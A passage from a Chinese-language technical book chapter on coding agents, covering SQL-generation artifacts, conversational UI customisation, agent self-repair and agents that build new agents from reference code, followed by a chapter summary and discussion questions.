資料庫查詢是程式碼生成能顯著提升互動體驗的場景。傳統的資料庫訪問依賴 GUI 工具或手寫 SQL，前者操作繁瑣，後者要求使用者具備專業知識。Agent 可以將自然語言轉為 SQL，但這裡有一個關鍵的設計選擇：是讓 Agent 執行 SQL 後用自然語言描述結果，還是讓 Agent 生成 SQL 程式碼作為 artifact 由前端直接執行？

第一種方案看似更「智慧」，但效率極低——查詢結果可能包含數千行大表格，讓 LLM 閱讀後用文字描述不僅消耗大量 token、耗時長，更嚴重的是 LLM「抄寫」資料時非常容易出錯。更好的方案是 **artifact 模式**。圖 5-9 展示了 SQL 查詢 Agent 的工作流程：Agent 不自己讀資料，而是生成一段 SQL 查詢程式碼，把這段程式碼作為一個獨立的「製品」（artifact）交給系統。系統拿著這段 SQL 直接去資料庫查詢，把查到的資料渲染成使用者能看到的表格。整個過程中，資料從資料庫直達使用者介面，完全繞過了 LLM 這個「中間人」——LLM 只負責寫查詢語句，不需要親自去讀成千上萬行資料再複述給使用者，既快速又準確。




更進一步，Agent 可以生成兩個 artifact 形成流水線：SQL 查詢 + 視覺化程式碼（如柱狀圖）。前端將 SQL 結果直接傳給視覺化程式碼，LLM 只負責生成程式碼，不參與資料傳遞——這正是程式碼生成作為介面的精髓。

> **實驗 5-10 ★★：自然語言互動的 ERP Agent**
>
> ERP（企業資源規劃）軟體是企業的關鍵系統，目前一般使用 GUI 介面，複雜操作需多次滑鼠點選。AI Agent 可將使用者自然語言查詢轉換成 SQL 語句，實現自動化查詢。
>
> 要求建立 PostgreSQL 資料庫，包含兩個表：(1) 員工表，包含員工 ID、姓名、部門、級別、入職日期、離職日期（空表示在職）；(2) 工資表，包含員工 ID、發薪日期、工資（每月一條記錄）。Agent 自動回答：
>
> 1. 平均每個員工在職多久？
> 2. 每個部門有多少在職員工？
> 3. 哪個部門員工平均級別最高？
> 4. 每個部門今年和去年各新入職多少人？
> 5. 前年 3 月到去年 5 月，A 部門的平均工資？
> 6. 去年 A 部門和 B 部門的平均工資哪個高？
> 7. 今年每個級別的員工平均工資？
> 8. 入職一年內、一到兩年、兩到三年的員工最近一個月平均工資？
> 9. 去年到今年漲薪幅度最大的 10 位員工？
> 10. 有沒有拖欠工資（某月在職但未發薪）？
>

**動態生成軟體。**

程式碼生成能力的終極應用是讓 Agent 完全動態地、從零開始建立軟體。Anthropic 的「Imagine with Claude」展示了這種可能的邊界：使用者提出需求，Claude 即時生成前端介面和互動邏輯，使用者與生成的軟體互動，Claude 修改程式碼生成新介面展示操作結果。整個過程中使用者看到一個從無到有、持續演化的應用程式。

不過，這種完全動態生成的模式成本和延遲較高，更適合作為展示能力邊界的實驗。一個更務實的方向是**基於已有框架進行定製化修改**。這種「半定製」模式保留基礎軟體的穩定性，同時在特定維度上開放使用者控制權——使用者說「把按鈕改成藍色」「在側邊欄新增快捷選單」「修改字型為更易讀的樣式」，Agent 理解需求並修改前端程式碼，熱載入（HMR，Hot Module Replacement，區域性熱替換、保留應用狀態、無需整頁重新整理即可生效）即時生效。這將「一刀切」的標準產品轉變為「千人千面」的個人化體驗。

> **實驗 5-11 ★★：對話式介面定製系統**
>
> **實驗目標**：實現使用者透過自然語言對話即時定製軟體介面的能力，驗證熱載入機制支援的程式碼生成在提供個人化使用者體驗中的有效性。
>
> **技術方案**：建構基礎 chatbot 應用（React 前端 + FastAPI 後端），前後端均執行在開發模式下支援熱載入（React 的 HMR，FastAPI 的 reload）。使用者在對話中提出 UI 定製需求（顏色、字型、佈局、元件位置等），Agent 自主修改程式碼。熱載入機制自動偵測檔案變化，前端重新編譯重新整理，使用者即時看到介面變化。支援多輪迭代定製。
>
### 程式碼創造程式碼：Agent 自舉

前面幾節展示了程式碼生成在各個領域的應用——從數學思考到文件創作再到介面定製。如果我們把這些能力推向極限，會出現一個自然的問題：Agent 能不能用程式碼生成能力來創造另一個 Agent？

這裡要先和第八章劃清分工。本節講的是 Agent 用程式碼**修復和建立與自己同類的 Agent**——自我修復、自我複製、按需繁殖出新 Agent，作用物件是 Agent 的程式碼與結構；第八章的「自我進化」則是另一件事，指 Agent 在**不改動模型權重**的前提下持續增長能力（沉澱經驗、最佳化提示詞、積累工具），作用物件是 Agent 的知識與策略。兩者都可以叫「進化」，為避免與第八章章名混淆，本節用**自舉**（bootstrapping）來稱呼這種「用程式碼生產 Agent」的能力。





**Agent 的自我修復：OpenClaw Doctor。**

Agent 自舉的一個重要前提是自我修復能力。OpenClaw 的 `doctor` 命令正是這種能力的體現——它能自動偵測三類問題：

- **配置異常**：過期的 OAuth token、遺留的配置格式、埠衝突
- **狀態問題**：陳舊的會話鎖檔案、外掛依賴缺失
- **服務健康問題**：閘道器未執行、沙盒映象缺失

然後透過分層修復策略自動解決：安全的修復（配置歸一化、鎖檔案清理）自動執行；有風險的操作（服務重啟、強制覆蓋配置）需要使用者確認。

這裡要避免一個誇大：過期 token、鎖檔案、埠衝突這類高頻問題，本身就有明確的偵測規則和固定的修復動作，`doctor` **以一組確定性檢查為基礎**先把它們覆蓋掉——這與傳統維運指令碼並無本質不同。真正體現 Agent 能力的是第二層：對確定性規則未覆蓋的疑難問題，`doctor` 再把它交給 LLM 分析錯誤日誌、理解設定檔案的語義、推斷問題的因果關係，生成針對性的修復方案。確定性檢查保證常見問題被穩定修復，LLM 兜底應對長尾疑難——兩層配合，`doctor --fix` 才能自動解決相當一部分常見閘道器問題。這種「Agent 修復 Agent」的模式，當 Agent 的工作物件不再是外部系統、而是它自身的執行環境時，自我修復能力就從系統介面卡升級為了 Agent 自舉的基礎設施。

**讓 Agent 編寫 Agent 的關鍵技巧。**

創造高質量 Agent 遠比生成普通應用程式碼複雜，因為它需要對 Agent 架構模式、最佳實踐和常見陷阱有深刻理解。如果缺乏這種領域專業知識，即使最強大的程式碼生成模型也可能創造出架構上有嚴重缺陷的 Agent。常見缺陷包括：

1. **上下文管理的隨意性**：未採用第二章討論的標準上下文格式，將軌跡轉為純文字塞進上下文，忽略結構化訊息帶來的 KV Cache 最佳化，工具呼叫迴圈存在邊界 bug
2. **工具設計的不規範**：描述簡略、缺少使用邊界說明和負面清單、引數缺乏具體示例
3. **技術選型的滯後性**：傾向使用訓練資料中最常見但已過時的模型和 API。解決方案：維護 SOTA 知識庫或賦予 Agent 搜尋能力
4. **外部生態的脫節**：使用廢棄 API、不再維護的庫或有缺陷的模式

解決這些問題的最有效路徑，不是在提示詞中窮盡所有規則，而是**提供高質量 Agent 實現作為參考範例**，引導程式碼生成 Agent 在此基礎上修改，而非從零開始。

「基於範例的生成」優勢明顯：範常式式碼本身就是最佳實踐的載體，Agent 在範例上改比從零寫更容易做對，架構上的好選擇會自然保留下來，而不需要在提示詞裡把每一條規則都說清楚。

Agent 接到開發新 Agent 的任務時，應首先複製自己的程式碼（或其他經過驗證的高質量實現），然後針對性修改：調整系統提示詞匹配新角色，替換或增刪工具適應新功能，修改業務邏輯但保留架構框架。這種「自我複製並適應性修改」的模式，既保證新 Agent 繼承核心技術優勢，又允許在特定維度上差異化——就像生物學中的基因複製加變異。

> **實驗 5-12 ★★★：開發一個能創造 Agent 的 Agent**
>
> **實驗目標**：建構具備超程式設計（Metaprogramming，即編寫能生成或修改其他程式的程式）能力的 Coding Agent，能根據使用者需求自動建立新 Agent 系統，確保遵循最佳實踐。
>
> **技術方案**：為 Coding Agent 提供高質量 Agent 實現作為參考範例（可使用 ch5/coding-agent 專案本身）。當接到建立新 Agent 的需求時，Agent 首先複製這個範常式式碼，然後基於使用者的具體需求進行針對性修改。
>
> **驗收標準**：生成的 Agent 能成功執行並完成基本任務。驗證採用標準訊息格式和工具呼叫協定，使用當前推薦的模型和 API。測試多輪對話中上下文和狀態管理的正確性。對比從零生成和基於範例修改兩種模式，驗證後者在質量和效率上的優勢。
>
>
> 
>
>

Agent 自舉體現了程式碼生成能力的終極應用——能創造 Agent 的 Agent 實現了智慧的自我繁殖。以上，我們梳理了從 Coding Agent 基礎到程式碼生成的多元價值、再到自舉的完整主線。

## 本章小結

本章討論的核心始終是同一件事：程式碼不只是寫程式的工具，它是 Agent 形式化思考和精確表達的語言。

Harness 工程那一節的核心結論是：Coding Agent 之所以成熟度高，不是因為程式碼生成模型特別強，而是因為軟體工程幾十年攢下的基礎設施——測試套件、型別系統、版本控制——天然構成了一套強大的 Harness。這個結論值得推廣到其他 Agent 場景。故障與錯誤恢復一節則給出了同一主題的另一面：Agent 的可靠性不取決於模型犯不犯錯，而取決於每類故障是否都有對應的偵測、恢復與終止路徑。

第二部分展示了程式碼生成在程式設計之外的廣泛價值，對應正文的六個維度：

- **思考工具**：藉助符號計算和約束求解彌補機率思考的不足
- **業務規則約束**：以無歧義方式表達業務規則，在不可逆操作場景中提供確定性安全防線——這種安全保障的價值遠超實現成本
- **多媒體生成**：透過提議者～稽核者機制建立 PPT、影片等多模態內容
- **系統介面卡**：自動追蹤格式演化實現日誌解析和問題診斷的完全自動化
- **生成式 UI**：動態建立表單、視覺化圖表甚至完整可定製應用，突破純文字限制
- **Agent 自舉**：用程式碼修復和創造同類 Agent，實現能創造 Agent 的 Agent

程式碼對 Agent 的價值在於：它既是完成任務的手段，也是積累知識、創造工具、最佳化自身的機制——一種真正的「元能力」。

至此，我們完成了三大支柱中上下文與工具兩大支柱的討論——而程式碼生成正是其中通用性最強的工具。但一個關鍵問題尚未回答：如何科學地衡量這些設計決策的效果？從下一章開始，我們進入第三個支柱——模型，首先從評估講起。下一章將建構完整的評估方法——從評估環境搭建、資料集設計到獎勵模型和評估驅動的模型選型，為前面所有章節討論的技術方案提供量化驗證的手段。

## 思考題

1. ★★ 程式碼生成被稱為 Agent 的「元能力」。但程式碼執行引入了安全風險——Agent 生成的程式碼可能包含漏洞、無限迴圈或資源耗盡。沙盒隔離能解決部分問題，但也限制了程式碼能力（比如無法訪問網路或檔案系統）。如何在安全性和能力之間找到最優平衡點？
2. ★★★ Agent 自舉——能創造 Agent 的 Agent——實現了「智慧的自我繁殖」。但每次自舉都可能引入新的偏差或錯誤，這種錯誤會在代際間累積嗎？如何防止 Agent 自舉的退化？
3. ★★ 程式碼生成 Agent 在處理日誌解析時，能自動追蹤格式演化。但如果格式變化是 bug 而非預期改動，Agent 的適應性反而掩蓋了問題。Agent 應該如何區分「需要適應的變化」和「需要報告的異常」？
4. ★★ 本章在 PPT 生成、影片編輯和日誌視覺化中反覆使用提議者～稽核者機制。如果 Reviewer 的審美偏好與目標使用者不一致，比如 Reviewer 認為資訊密度合理但使用者覺得太擁擠，回饋迴圈會收斂到錯誤的區域性最優。如何讓使用者的偏好回饋也參與 Reviewer 迴圈？
5. ★★ 本章展示了 Coding Agent 把執行和除錯中獲得的經驗沉澱回程式碼庫的多種方式——寫入知識庫檔案、更新架構文件、維護專案指令檔案、把操作序列固化為程式碼。如果把這些經驗進一步提煉為系統提示詞中的規則，規則集會隨時間不斷膨脹。如何對沉澱下來的規則做「垃圾回收」——識別並清理冗餘或過時的條目？這種由 Agent 自己沉澱經驗的機制，與第八章將討論的系統提示詞自動最佳化有何異同？
6. ★ 「對遠端工作友好的團隊往往也對 AI Agent 友好。」你所在的團隊或組織，在知識文件化方面距離「AI-ready」還有多遠？最大的障礙是什麼？
7. ★★★ Simon Willison 提出了 Agent 的「致命三要素」（訪問私有資料、暴露於不受信任內容、具備外部通訊能力），本章在此基礎上增加了第四個——持久記憶。在一個需要同時處理這四種要素的生產環境中，你會如何設計安全策略？
8. ★★ Artifact 模式讓 Agent 生成的 SQL 或前端程式碼直接在使用者瀏覽器或資料庫中執行。但生成的 SQL 可能執行破壞性操作，生成的 HTML 可能包含漏洞。如何確保系統的安全性？
9. ★★ 將業務規則編碼為工具內部基於資料庫真值的校驗，並用引數設計引導模型在呼叫前核對政策條件，本質上是用程式碼結構來約束 Agent 行為。這種「程式碼即規則」的模式相比自然語言規則有什麼優勢和侷限？
10. ★★ Artifact 模式讓 Agent 生成 SQL 或視覺化程式碼，由前端直接執行，繞過 LLM 處理大量資料。這種「Agent 生成程式碼，系統執行程式碼」的分工模式，與傳統的「Agent 直接給出答案」的模式相比，有什麼優劣？
